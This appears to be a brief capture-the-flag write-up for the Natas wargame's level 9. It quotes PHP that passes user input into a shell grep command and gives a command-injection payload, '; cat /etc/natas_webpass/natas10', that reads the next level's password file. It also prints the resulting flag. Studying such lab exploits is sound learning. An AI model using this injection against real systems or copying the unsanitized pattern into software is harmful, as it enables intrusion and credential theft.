 # Natas Level 9 Solution

in this challenge we use command injection, this is the vuln part: `passthru("grep -i $key dictionary.txt");`

and this is the payload we gives `; cat /etc/natas_webpass/natas10`

**Flag:** ***`t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`*** 